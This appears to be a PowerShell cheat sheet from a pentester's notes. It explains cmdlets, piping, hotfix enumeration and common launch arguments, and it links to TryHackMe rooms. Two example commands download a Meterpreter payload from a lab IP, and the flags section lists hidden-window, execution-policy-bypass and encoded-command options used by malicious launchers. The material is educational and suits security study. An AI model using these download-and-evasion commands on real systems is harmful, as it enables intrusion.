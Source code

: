 # Powershell

In short, "PowerShell is a cross-platform task automation solution made up of a command-line shell, a scripting language, and a configuration management framework. PowerShell runs on Windows, Linux, and macOS." There is a comprehensive document [here](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.2), on Microsoft website.

There is also a brief [Introduction to powershell](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) course.

## **Running Powershell**

We can run powershell from the Start Menu by searching for it, through the command prompt by running `powershell.exe`, or through the run dialogbox(`windows key+r`) and running `powershell.exe`

### Cmdlet

A cmdlet is a lightweight command that is used in the PowerShell environment. The PowerShell runtime invokes these cmdlets within the context of automation scripts that are provided at the command line. Cmdlets perform an action and typically return a Microsoft .NET object to the next command in the pipeline. A cmdlet is a single command that participates in the pipeline semantics of PowerShell. This includes binary (C#) cmdlets, advanced script functions, CDXML, and Workflows.

A cmdlet is simply a command through which you can perform an action. The two most helpful cmdlets that everyone should be aware of are:

* Get-Command
* Get-Help

Using the cmdlet ‘Get-Command’, you can find all the available cmdlets even if you do not know the exact cmdlet. For example, you want to restart a service from PowerShell, but you do not know the cmdlet. Although you can assume that it may contain the word ‘service’.

Common verbs:

* Get
* Start
* Stop&#x20;
* Read
* Write
* New
* Out

Full list of approved verbs can be found [here](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7).

## Commands

* `Get-Help` shows information about a cmdlet_._ `Get-Help Command-Name`
* `Get-Command` - Gets all the cmdlets __ installed on the current Computer. This cmdlet allows for pattern matching such as `Get-Command Verb-*` or `Get-Command *-Noun`
* `The Pipe( | )` - Used to pass output from one cmdlet to another. Eg. `Verb-Noun | Get-Member`&#x20;
* `Invoke-Webrequest` - Makes a request to a webserver. Sends HTTP and HTTPS requests to a web page or web service. It parses the response and returns collections of links, images, and other significant HTML elements. More info can be found [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2).
  * Download a file: `Invoke-WebRequest -URI http://(IP):(PORT)/(FILE) -Outfile (FILE)`
  * `Invoke-WebRequest "URL/File" -OutFile "File"`
    * `Invoke-WebRequest "http://10.0.2.8/meterpreter-64.ps1" -Outfile "meterpreter.ps1"`
* `Invoke-Expression` - Evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.
* `(New-Object System.Net.WebClient)DownloadFile('URL/File', 'Output-File')`
  * `(New-Object System.Net.WebClient)DownloadFile('http://10.0.2.8/meterpreter-64.ps1', 'meterpreter.ps1')`
* `Get-Hotfix` - Enumerate already installed patches
  * `Get-Hotfix | Format-list | findstr InstalledOn`
  * `Get-Hotfix | Format-Table HotFixID`
* `Format-List` - Used to gather more information about objects
  * `dir | Format-List`
* `Out-File` - Used to save the output to a file for further use
  * `Get-Hotfix | Out-File Hotfixes.txt`
* `Start-Process` - Used to start a process, such as notepad.
* `Get-Process` - Lists all running processes. Can also be used with the `-name` parameter to filter for a specific process
* `(command) | Export-Csv` - Exports the Previously piped command into a .CSV file that may be easier to read.
* `Get-Content` - Shows the contents of a file. Similar to the `cat` command on linux.
* `Copy-Item` - Copies and item
* `Move-Item` - Moves and item
* `Get-FileHash` - Obtains file hash of specified file

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.

## Additional resources:

[TryHackMe Hacking With Powershell](https://tryhackme.com/room/powershell)

[TryHackme Powershell for Pentesters](https://tryhackme.com/room/powershellforpentesters)
